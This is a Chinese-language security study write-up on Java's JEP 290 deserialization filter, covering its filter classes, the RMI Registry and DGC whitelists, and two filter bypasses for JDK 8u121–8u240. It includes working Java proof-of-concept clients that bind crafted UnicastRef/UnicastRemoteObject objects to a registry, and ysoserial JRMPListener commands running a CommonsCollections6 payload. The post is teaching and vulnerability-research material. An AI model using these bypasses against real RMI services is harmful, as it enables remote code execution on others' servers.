





# Java安全学习-JEP290

Author: H3rmesk1t

Data: 2022.01.29


# 简介
`JEP 290`是`Java`底层为了缓解反序列化攻击提出的一种解决方案, 理想状态是让开发者只反序列化其想反序列化的类, 这样使用类似`CC链`这样的, 就会因为无法反序列化`Tranformer`、`HashMap`等, 从而没法触发漏洞.

[官方描述](http://openjdk.java.net/jeps/290)


`JEP 290`主要描述了如下几个机制:
 - Provide a flexible mechanism to narrow the classes that can be deserialized from any class available to an application down to a context-appropriate set of classes. (提供一个限制反序列化类的机制,白名单或者黑名单)
 - Provide metrics to the filter for graph size and complexity during deserialization to validate normal graph behaviors. (限制反序列化深度和复杂度)
 - Provide a mechanism for RMI-exported objects to validate the classes expected in invocations. (为 RMI 导出的对象设置了验证机制)
 - The filter mechanism must not require subclassing or modification to existing subclasses of ObjectInputStream. (过滤机制不得要求对 ObjectInputStream 的现有子类进行子类化或修改)
 - Define a global filter that can be configured by properties or a configuration file. (定义一个可配置的过滤机制, 比如可以通过配置properties文件的形式来定义过滤器)

`JEP 290`过滤规则如下:
 - 如果模式以" !"开头, 如果模式的其余部分匹配, 则该类被拒绝, 否则被接受.
 - 如果模式包含"/", 则"/"之前的非空前缀是模块名称. 如果模块名称与类的模块名称匹配, 则剩余模式与类名称匹配. 如果没有"/", 则不比较模块名称.
 - 如果模式以" .**"结尾, 则它匹配包和所有子包中的任何类
 - 如果模式以" .*"结尾, 则它匹配包中的任何类
 - 如果模式以" *"结尾, 它匹配任何以该模式为前缀的类.
 - 如果模式等于类名, 则匹配.
 - 否则状态未定.


`JEP 290`在`JDK 9`中加入, 但在`JDK 6,7,8`一些高版本中也添加了, 具体为`JDK 8u121`、`JDK 7u131`和`JDK 6u141`. [官方说明](https://blogs.oracle.com/java-platform-group/filter-incoming-serialization-data-a-little-of-jdk-9-goodness-available-now-in-current-release-families)


# JEP290实际限制
这里用`8u311`和`8u66`来做比较, 示例代码如下:

 - RMIServer.java
```java
package org.h3rmesk1t.jep290;

import java.rmi.Naming;
import java.rmi.registry.LocateRegistry;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/1/30 7:52 下午
 */
public class RMIServer {

    // 参数配置
    public static String HOST = "localhost";
    public static int PORT = 8888;
    public static String RMI_PATH = "/demo";
    public static final String RMI_NAME = "rmi://" + HOST + ":" + PORT + RMI_PATH;

    public static void main(String[] args) {
        try {
            // 注册RMI端口
            LocateRegistry.createRegistry(PORT);

            // 创建一个服务
            RemoteImpl remoteImpl = new RemoteImpl();

            // 服务命名绑定
            Naming.bind(RMI_NAME, remoteImpl);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

 - RemoteImpl.java
```java
package org.h3rmesk1t.jep290;

import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/1/30 7:53 下午
 */
public class RemoteImpl extends UnicastRemoteObject implements RemoteInterface {

    protected RemoteImpl() throws RemoteException {
    }

    @Override
    public String demo() throws RemoteException {
        return "Hello, h3rmesk1t!";
    }

    @Override
    public String demo(Object object) throws RemoteException {
        return object.getClass().getName();
    }
}
```

 - RemoteInterface.java
```java
package org.h3rmesk1t.jep290;

import java.rmi.Remote;
import java.rmi.RemoteException;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/1/30 7:53 下午
 */
public interface RemoteInterface extends Remote {

    public String demo() throws RemoteException;

    public String demo(Object object) throws RemoteException;
}
```

利用`ysoserial`项目中的`ysoserial.exploit.RMIRegistryExploit`来进行攻击, 可以发现当`jdk8`版本大于`8u121`时来启动`RMIServer`, 会显示攻击失败; 而低于`8u121`时, 则可以成功攻击, 弹出计算器.


# 核心类
`JEP 290`涉及的核心类有: `ObjectInputStream`类, `ObjectInputFilter`接口, `Config`静态类以及`Global`静态类. 其中`Config`类是`ObjectInputFilter`接口的内部类, `Global`类又是`Config`类的内部类.


## ObjectInputStream 类
跟进之前测试时的报错信息, 跟进`java.io.ObjectInputStream`类, `JEP 290`进行过滤的具体实现方法是在`ObjectInputStream`类中增加了一个`serialFilter`属性和一个`filterChcek`函数, 两者搭配来实现过滤.

### 构造函数
在`ObjectInputStream`类中含有两个构造函数, 需要注意的是, 在这两个构造函数中都会给属性`serialFilter`赋值为`Config.getSerialFilterFactorySingleton().apply(null, Config.getSerialFilter())`.


跟进`Config.getSerialFilter()`, 可以看到`ObjectInputFilter.Config.getSerialFilter()`返回`ObjectInputFilter#Config`静态类中的`serialFilter`静态字段.


### serialFilter 属性
`serialFilter`属性是一个`ObjectInputFilter`接口类型, 并且这个接口声明了一个`checkInput`方法.


### filterCheck 函数
在`filterCheck`函数中, 函数逻辑流程大致可以分为三步:
  1. 先判断`serialFilter`的属性值是否为`null`, 当不为`null`时则会进行过滤操作.
  2. 当判断`serialFilter`的属性值不为`null`后, 创建一个`FilterValues`对象, 并把需要检查的信息封装进去, 再调用`serialFilter.checkInput`方法进行判断, 并返回`ObjectInputFilter.Status`类型的返回值
  3. 根据返回值进行判断, 当返回值为`null`或`ObjectInputFilter.Status.REJECTED`时会抛出异常.


## ObjectInputFilter 接口
该接口是`JEP 290`中实现过滤操作的一个最基础的接口, 在低于`JDK 9`的时候的全限定名是`sun.misc.ObjectInputFIlter`, `JDK 9`及以上是`java.io.ObjectInputFilter`. `ObjectInputFilter`接口的结构大致分为`checkInput`函数、`Config`静态类、`FilterInfo`接口、`Status`枚举类.


## Config 静态类
`Config`静态类是`ObjcectInputFilter`接口的一个内部静态类. 在初始化时, 会将`Config.serialFilter`赋值为一个`Global`对象, 而`ObjectInputStream`的构造函数中取的就是` Config.serialFilter`这个静态字段, 所以设置了`Config.serialFilter`这个静态字段就相当于设置了`ObjectInputStream`类全局过滤器. 


这里可以通过配置`JVM`的`jdk.serialFilter`或者`%JAVA_HOME%\conf\security\java.security`文件的`jdk.serialFilter`字段值, 来设置`Config.serialFilter`, 也是设置了全局过滤. 另外还有就是一些框架, 在开始的时候设置也会设置`Config.serialFilter`, 来设置`ObjectInputStream`类的全局过滤, 例如`weblogic`在启动的时候会设置`Config.serialFilter`为`WebLogicObjectInputFilterWrapper`对象.

### createFilte 方法
`Config#createFilter`会进一步调用`Global.createFilter`方法, 主要功能就是将传入的`JEP 290`规则字符串解析到`Global`对象的`filters`字段上, 并且返回这个`Global`对象.


### getSerialFilter 方法
`Config#getSerialFilter`主要功能就是返回`Config#serialFilter`的字段值.


## Global 静态类
`Global`静态类是`Config`类中的一个内部静态类, 其重要特征是实现了`ObjectInputFilter`接口中的`checkInput`方法. 所以`Global`类可以直接赋值到`ObjectInputStream.serialFilter`上.

### 构造函数
`Global`中的构造函数会解析`JEP 290`规则为对应的`lambda`表达式, 然后添加到`Global.filters`.


### filters 字段
`filters`字段作为一个函数列表, 用来后续过滤操作.

### checkInput 方法
`checkInput`方法会遍历`filters`来检测要反序列化的类.


# 过滤器
在核心类中的`ObjectInputStream`类中说过, 配置过滤器其实就是设置`ObjectInputStream`类中的`serialFilter`属性. 根据上文提到的过滤配置规则也不难看出过滤器的类型有两种:
 1. 通过配置文件或者`JVM`属性来配置的全局过滤器.
 2. 通过改变`ObjectInputStream`的`serialFilter`属性来配置的局部过滤器.

## 全局过滤器
全局过滤器实际上就是通过设置`Config`静态类中的`serialFilter`静态字段值来进行过滤. 上文中也提到了在`ObjectInputStream`的两个构造方法中都会`serialFilter`属性赋值`Config.getSerialFilterFactorySingleton().apply(null, Config.getSerialFilter())`, 通过调用链可以知道最后返回的是`Config#serialFilter`.

### jdk.serailFilter
上文中提到了`Config`静态类初始化的时候会解析`jdk.serailFilter`属性设置的`JEP 290`规则到一个`Global`对象的`filters`属性, 并且会将这个`Global`对象赋值到`Config`静态类的`serialFilter`属性上. 因此, `Config.serialFilter`值默认是解析`jdk.serailFilter`属性得到得到的`Global`对象.

## 局部过滤器
局部过滤器实际上是在`new objectInputStream`对象之后通过改变单个`ObjectInputStream`对象的`serialFilter`字段值来实现局部过滤, 通常有两种方法来达到该目的:
 - 通过调用`ObjectInputStream`对象的`setInternalObjectInputFilter`方法(低于`JDK 9`的时候是`getInternalObjectInputFilter`和`setInternalObjectInputFilter`, `JDK 9`以及以上是`getObjectInputFilter`和`setObjectInputFIlter`).


 - 通过调用`Config`静态类的`setObjectInputFIlter`方法.



# RMI 过滤机制
在`RMI`中采用的是局部过滤的机制, 对于`RMI`的学习具体可以看看之前的[Java安全学习-RMI学习](https://github.com/H3rmesk1t/Learning_summary/blob/main/2022-1-19/Java%E5%AE%89%E5%85%A8%E5%AD%A6%E4%B9%A0-RMI%E5%AD%A6%E4%B9%A0.md#)或者[官方文档](https://docs.oracle.com/javase/tutorial/rmi/overview.html)

## RegistryImpl 对象与 JEP290
`RegistryImpl`作为一个特殊的对象, 导出在`RMI`服务端, 客户端调用的`bind`、`lookup`、`list`等操作, 实际上是操作`RegistryImpl`的`bindings`这个`Hashtable`. `RegistryImpl`特殊在导出过程中生成的`Target`对象是一个"定制"的`Target`对象, 具体体现在:
 - `Target`中`id`的`objNum`是固定的, 为`ObjID.REGISTRY_ID`, 也就是`0`.
 - `Target`中`disp`是`filter`为`RegisryImpl::RegistryFilter`, `skel`为`RegsitryImpl_skel`的`UnicastServerRef`对象.
 - `Target`中`stub`为`RegistryImpl_stub`.


## DGCImpl 对象与 JEP290
`DGCImpl`对象和`RegistryImpl`对象类似都是一个特殊的对象, 其`Target`对象的特殊体现在:
 - `Target`中`id`的`objNum`是固定的, 为`ObjID.DGC_ID`, 也就是`2`.
 - `Target`中`disp`是`filter`为`DGCImpl::DGCFilter`, `skel`为`DGCImpl_skel`的 `UnicastServerRef`对象.
 - `Target`中`stub`为`DGC_stub`.

## 通过 JVM 参数或者配置文件进行配置
### RegistryImpl
`RegistryImpl`中含有一个静态字段`registryFilter`, 所以在`new RegistryImpl`对象的时候会调用`initRegistryFilter`方法进行赋值.

```java
private static final ObjectInputFilter registryFilter = (ObjectInputFilter)AccessController.doPrivileged(RegistryImpl::initRegistryFilter);
```

跟进`RegistryImpl#initRegistryFilter`方法, 首先会读取`JVM`的`sun.rmi.registry.registryFilter`的属性, 当其为`null`时会读取`%JAVA_HOME%\conf\security\java.security`配置文件中的`sun.rmi.registry.registryFilter`字段来得到`JEP 290`形式的`pattern`, 再调用`ObjectInputFilter.Config.createFilter2`创建`filter`并返回.


这里用`jdk8u311`的`java.security`文件来示例.


需要注意的是, 存在一个函数`RegistryImpl#registryFilter`, 其会先判断静态字段`registryFilter`是否为`null`来决定是使用用户自定义的过滤规则, 还是使用默认的白名单规则. 如果不是`null`的话, 会先调用用户自定义的过滤规则进行检查, 接着判断检查结果, 如果不为`UNDECIDED`就直接返回检查的结果, 否则再使用默认的白名单检查.


### DGCImpl
`DGCImpl`中含有一个静态字段`dgcFilter`, 所以在`new DGCImpl`对象的时候会调用`initDgcFilter`方法进行赋值.


跟进`DGCImpl#initDgcFilter`方法, 首先会读取`JVM`的`sun.rmi.transport.dgcFilter`的属性, 当其为`null`时会读取`%JAVA_HOME%\conf\security\java.security`配置文件中的`sun.rmi.transport.dgcFilter`字段来得到`JEP 290`形式的`pattern`, 再调用`ObjectInputFilter.Config.createFilter`创建`filter`并返回.


这里用`jdk8u311`的`java.security`文件来示例.


在`DGCImpl`中存在一个和`RegistryImpl#registryFilter`函数类似的函数`DGCImpl#checkInput`, 其会先判断`DGCImpl#dgcFilter`字段是否为`null`, 从而来决定是使用用户自定义的过滤规则, 还是使用默认的白名单规则. 如果不是`null`的话, 会先调用用户自定义的过滤规则进行检查, 接着判断检查结果, 如果不为`UNDECIDED`就直接返回检查的结果, 否则再使用默认的白名单检查.


# RMI-JEP290 绕过
在`RMI`中`JEP 290`主要是在远程引用层之上进行过滤的, 所以其过滤作用对`Server`和`Client`的互相攻击无效(完成和`Registry`通信之后, 客户端和服务端的相互通信就到了远程引用层和传输层).


在`RegistryImpl#registryFilter`中的白名单内容有:
 - String
 - Number
 - Remote
 - Proxy
 - UnicastRef
 - RMIClientSocketFactory
 - RMIServerSocketFactory
 - ActivationID
 - UID

在`DGCImpl#checkInput`中的白名单内容有:
 - ObjID
 - UID
 - VMID
 - Lease

只要反序列化的类不是白名单中的类, 便会返回`REJECTED`操作符, 表示序列化流中有不合法的内容, 直接抛出异常.

## 8u121~8u230
### UnicastRef 类
在`RegistryImpl#registryFilter`中的白名单中可以看到该类, 它也是`RMIServer`或者`RMIClient`和`Registry`通信的基础. 当我们在执行`lookup`、`bind`等操作时往往先会获取一个`Registry`, 示例代码如下:

```java
package org.h3rmesk1t.jep290;

import org.h3rmesk1t.rmi.RemoteInterface;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/1/30 7:53 下午
 */
public class RMIClient {
    public static void main(String[] args) throws Exception {

        // 获取远程对象实例
        // RemoteInterface stub = (RemoteInterface) Naming.lookup("//localhost:4444/demoCaseBegin");

        // 获取远程对象实例
        Registry registry = LocateRegistry.getRegistry("localhost", 7777);
        org.h3rmesk1t.rmi.RemoteInterface stub = (RemoteInterface) registry.lookup("demo");

        // 方法调用
        System.out.println("方法调用结果: " + stub.demoCaseBegin(stub.openCalculatorObject()));
    }
}
```

跟进`LocateRegistry#getRegistry`方法, 先用`TCPEndpoint`封装`Registry`的`host`、`port`等信息, 然后用`UnicastRef`封装了`liveRef`, 最终获取到一个在其中封装了一个`UnicastRef`对象的`RegistryImpl_Stub`对象.


接着将断点下在`lookup`处, 看看`Client`中的`stub`对象是如何连接`Registry`的. 跟进后不难看出, 其连接过程是先通过`UnicastRef`的`newCall`方法发起连接, 然后把要绑定的对象发送到`Registry`. 因此, 如果我们可以控制`UnicastRef#LiveRef`所封装的`host`、`port`等信息, 便可以发起一个任意的`JRMP`连接请求, 这个`trick`点和`ysoserial`中的`payloads.JRMPClient`是相同的原理.


### RemoteObject 类
`RemoteObject`实现了`Remote`和`Serializable`接口, 而`Remote`又是`RegistryImpl#registryFilter`中白名单的内容, 因此它及其子类是可以通过白名单检测的. 在后续分析中, 利用的正是`RemoteObject#readObject`方法. 其最后的`ref.readExternal(in)`中的`ref`正好是一个`UnicastRef`对象.



跟进`UnicastRef#readExternal`方法, 其会进而调用`LiveRef#read`方法.


跟进`LiveRef#read`方法, 在该方法中先会调用`TCPEndpoint#readHostPortFormat`方法读出序列化流中的`host`和`port`相关信息, 然后将其重新封装成一个`LiveRef`对象, 并将其存储到当前的`ConnectionInputStream`上.


跟进`ConnectionInputStream#saveRef`方法, 其建立了一个`TCPEndpoint`到`ArrayList<LiveRef>`的映射关系.


回到前面的`RemoteObject#readObject`方法, 这里的`readObject`是在`RegistryImpl_Skle#dispatch`中的`readObject`方法触发来的.


在服务端触发了反序列化之后, 继续往下走, 调用`StreamRemoteCall#releaseInputStream`方法, 这里的`this.in`便是之前谈到的存储在`LiveRef`对象的那个`ConnectionInputStream`对象, 在这里会调用`ConnectionInputStream#registerRefs`方法.


跟进`ConnectionInputStream#registerRefs`, 这里就会发现会根据之前在`ConnectionInputStream#saveRef`方法建立的映射关系来提取相应的值, 然后传入到`DGCClient#registerRefs`方法中.


跟进`DGCClient#registerRefs`方法, 在这里可以看到, `DGCClient`向恶意的`JRMP`服务端发起`lookup`连接.



### ByPass
在上文对`UnicastRef`和`RemoteObject`两个类的分析中可以发现:
 - `RemoteObject`类及其子类对象可以被`bind`或者`lookup`到`Registry`, 且在白名单之中.
 - `RemoteObject`类及其没有实现`readObject`方法的子类经过反序列化可以通过内部的`UnicastRef`对象发起`JRMP`请求连接恶意的`Server`.

至此, `ByPass JEP-290`的思路就非常明确了:
 1. `ysoserial`开启一个恶意的`JRMPListener`.
 2. 控制`RemoteObject`中的`UnicastRef`对象(封装了恶意`Server`的`host`、`port`等信息).
 3. `Client`或者`Server`向`Registry`发送这个`RemoteObject`对象, `Registry`触发`readObject`方法之后会向恶意的`JRMP Server`发起连接请求.
 4. 连接成功后成功触发`JRMPListener`.

`Registry`触发反序列化利用链如下:

```text
客户端发送数据 ->...
UnicastServerRef#dispatch –>
UnicastServerRef#oldDispatch –>
RegistryImpl_Skle#dispatch –> RemoteObject#readObject
StreamRemoteCall#releaseInputStream –>
ConnectionInputStream#registerRefs –>
DGCClient#registerRefs –>
DGCClient$EndpointEntry#registerRefs –>
DGCClient$EndpointEntry#makeDirtyCall –>
DGCImpl_Stub#dirty –>
UnicastRef#invoke –> (RemoteCall var1)
StreamRemoteCall#executeCall –>
ObjectInputSteam#readObject –> "demo"
```

`ByPass JEP-290`的关键在于: 通过反序列化将`Registry`变为`JRMP`客户端, 向`JRMPListener`发起`JRMP`请求.


这里还需要注意的一点就是需要找到一个类实现类`RemoteObject`方法.


### Demo
测试代码如下:
 - RMIRegistry

```java
package org.h3rmesk1t.jep290.bypass8u230;

import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/4 2:13 上午
 */
public class RMIRegistry {

    public static void main(String[] args) throws RemoteException {

        LocateRegistry.createRegistry(2222);
        System.out.println("RMI Registry Start...");

        while (true);
    }
}
```
 - RMIClient

```java
package org.h3rmesk1t.jep290.bypass8u230;

import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;

import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.ObjID;
import java.rmi.server.RemoteObjectInvocationHandler;
import java.util.Random;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/4 2:15 上午
 */
public class RMIClient {

    public static void main(String[] args) throws RemoteException, AlreadyBoundException {

        Registry registry = LocateRegistry.getRegistry(2222);
        ObjID id = new ObjID(new Random().nextInt());
        TCPEndpoint te = new TCPEndpoint("127.0.0.1", 9999);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
        registry.bind("demo", obj);
    }
}
```

 - ysoserial

```bash
java -cp ~/Desktop/ysoserial.jar ysoserial.exploit.JRMPListener 9999 CommonsCollections6 'open /System/Applications/Calculator.app'
```


### 修复
`JDK8u231`版本及以上的`DGCImpl_Stub#dirty`方法中多了一个`setObjectInputFilter`的过程, 导致`JEP 290`重新可以`check`到. 



## 8u231~8u240
在`ByPass 8u121~8u230`的时候, `UnicastRef`类用了一层包装, 通过`DGCClient`向`JRMPListener`发起`JRMP`请求, 而在`jdk8u231`版本及以上的`DGCImpl_Stub#dirty`方法中多了一个`setObjectInputFilter`的过程, 此时又会被`JEP290 check`到. `ByPass 8u231~8u240`的`Gadget`如下:

```text
客户端发送数据 –> 服务端反序列化(RegistryImpl_Skle#dispatch)
UnicastRemoteObject#readObject –>
UnicastRemoteObject#reexport –>
UnicastRemoteObject#exportObject –> overload
UnicastRemoteObject#exportObject –>
UnicastServerRef#exportObject –> …
TCPTransport#listen –>
TcpEndpoint#newServerSocket –>
RMIServerSocketFactory#createServerSocket –> Dynamic Proxy(RemoteObjectInvocationHandler)
RemoteObjectInvocationHandler#invoke –>
RemoteObjectInvocationHandler#invokeMethod –>
UnicastRef#invoke –> (Remote var1, Method var2, Object[] var3, long var4)
StreamRemoteCall#executeCall –>
ObjectInputSteam#readObject –> "demo"
```

### Gadget 分析
首先跟进`UnicastRemoteObject#readObject`方法, 在最后继续调用`UnicastRemoteObject#reexport`方法, 这里通过判断有无设置`csf`和`ssf`来分别调用两种重载方法.


由于在`ByPass`的`exploit`中会设置`ssf`, 这里跟进`else`中的`exportObject`方法. 跟进`UnicastRemoteObject#exportObject`方法, 这里把`port`、`csf`、`ssf`作为构造方法参数传入`UnicastServerRef2`.


跟进`UnicastServerRef2`方法, 发现其内部封装了一层`LiveRef`.


继续回到上一步, 跟进重载的`UnicastRemoteObject#exportObject`方法, 继续调用`UnicastServerRef#exportObject`方法, 这里在之前分析`RMI`的文章中有分析过, 大致流程为创建`RegistryImpl_Stub`、`RegistryImpl_Skel`对象, 最终调用到`TCPTransport#listen`方法创建监听栈.

TCPTransport#listen 方法创建监听栈.


跟进`TCPTransport#listen`方法, 创建一个`TCPEndpoint`对象后, 进一步调用`TCPEndpoint#newServerSocket`方法, 这里有一层动态代理, 通过`RemoteObjectInvocationHandler`代理`RMIServerSocketFactory`接口, 然后把生成的代理对象设置为该`ssf`.


跟进`RemoteObjectInvocationHandler#invoke`方法, 在`if-else`判断中所有`if`条件均不成立, 调用到`RemoteObjectInvocationHandler#invokeRemoteMethod`方法, 由于此处的`ref`可控, 将其设置为`UnicastRef`后, 调用`UnicastRef#invoke`方法.





跟进`UnicastRef#invoke`方法中, `Registry`向`JRMPListener`发起`JRMP`请求, 进行数据交互, 会成功调用到`StreamRemoteCall#executeCall`方法.


在`StreamRemoteCall#executeCall`方法中, 反序列化`JRMPListener`的`Payload`, 由于这里获取到`InputStream`之后并没有设置`JEP 290`的`filter`, 因此成功`ByPass`.


### Demo
需要注意的是, 本地在`bind`或者`rebind`一个对象的时候, 在序列化对象的时候会来到`MarshalOutputStream#replaceObject`方法. 如果这个对象没有继承`RemoteStub`的话, 原先的`UnicastRemoteObject`会被转化成`RemoteObjectInvocationHandler`, 服务端也就无法触发`UnicastRemoteObject#readObject`方法. 这里可以采用重写`RegistryImpl#bind`方法, 在序列化之前通过反射`ObjectInputStream`, 修改`enableReplace`为`false`


测试代码如下:

 - RMIRegistry

```java
package org.h3rmesk1t.jep290.bypass8u230;

import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/4 2:13 上午
 */
public class RMIRegistry {

    public static void main(String[] args) throws RemoteException {

        LocateRegistry.createRegistry(6666);
        System.out.println("RMI Registry Start...");

        while (true);
    }
}
```

 - RMIServer

```java
package org.h3rmesk1t.jep290.bypass8u240;

import sun.rmi.registry.RegistryImpl_Stub;
import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;

import java.io.ObjectOutput;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.*;
import java.util.Random;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/4 3:31 上午
 */
public class RMIServer {

    public static void main(String[] args) throws Exception {

        UnicastRemoteObject payload = getPayload();
        Registry registry = LocateRegistry.getRegistry(6666);
        bindReflection("demo", payload, registry);
    }

    static UnicastRemoteObject getPayload() throws Exception {

        ObjID id = new ObjID(new Random().nextInt());
        TCPEndpoint te = new TCPEndpoint("localhost", 9999);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));

        System.getProperties().put("sun.misc.ProxyGenerator.saveGeneratedFiles", "true");
        RemoteObjectInvocationHandler handler = new RemoteObjectInvocationHandler(ref);
        RMIServerSocketFactory factory = (RMIServerSocketFactory) Proxy.newProxyInstance(
                handler.getClass().getClassLoader(),
                new Class[]{RMIServerSocketFactory.class, Remote.class},
                handler
        );

        Constructor<UnicastRemoteObject> constructor = UnicastRemoteObject.class.getDeclaredConstructor();
        constructor.setAccessible(true);
        UnicastRemoteObject unicastRemoteObject = constructor.newInstance();

        Field field_ssf = UnicastRemoteObject.class.getDeclaredField("ssf");
        field_ssf.setAccessible(true);
        field_ssf.set(unicastRemoteObject, factory);

        return unicastRemoteObject;
    }

    static void bindReflection(String name, Object obj, Registry registry) throws Exception {

        Field ref_filed = RemoteObject.class.getDeclaredField("ref");
        ref_filed.setAccessible(true);
        UnicastRef ref = (UnicastRef) ref_filed.get(registry);

        Field operations_filed = RegistryImpl_Stub.class.getDeclaredField("operations");
        operations_filed.setAccessible(true);
        Operation[] operations = (Operation[]) operations_filed.get(registry);

        RemoteCall remoteCall = ref.newCall((RemoteObject) registry, operations, 0, 4905912898345647071L);
        ObjectOutput outputStream = remoteCall.getOutputStream();

        Field enableReplace_filed = ObjectOutputStream.class.getDeclaredField("enableReplace");
        enableReplace_filed.setAccessible(true);
        enableReplace_filed.setBoolean(outputStream, false);

        outputStream.writeObject(name);
        outputStream.writeObject(obj);

        ref.invoke(remoteCall);
        ref.done(remoteCall);
    }
}
```

 - ysoserial

```bash
java -cp ~/Desktop/ysoserial.jar ysoserial.exploit.JRMPListener 9999 CommonsCollections6 'open /System/Applications/Calculator.app'
```


### 修复
`JDK8u241`在`RemoteObjectInvocationHandler#invokeRemoteMethod`中声明要调用的方法的类, 必须实现`Remote`接口, 而`RMIServerSocketFactory`类没有实现该接口, 于是会直接抛出异常无法调用.


# 参考
 - [漫谈 JEP 290](https://paper.seebug.org/1689/)

 - [RMI-JEP290的分析与绕过](https://www.anquanke.com/post/id/259059)

 - [反序列化漏洞的末日？JEP290机制研究](https://paper.seebug.org/454/)

 - [JEP 290: Filter Incoming Serialization Data](https://openjdk.java.net/jeps/290)

# 工具
学习时找`ysoserial`的现成`jar`包找了半天, 这里挂个`ysoserial`下载链接(但愿不会寄了)方便后续学习和复习时用.
 - [ysoserial](https://jitpack.io/com/github/frohoff/ysoserial/)

在上文分析的攻击`RMI`服务端的绕过方法, 网上有一些现成的工具, 比如:
 - [rmitast](https://github.com/STMCyber/RmiTaste)

 - [rmisout](https://github.com/BishopFox/rmiscout)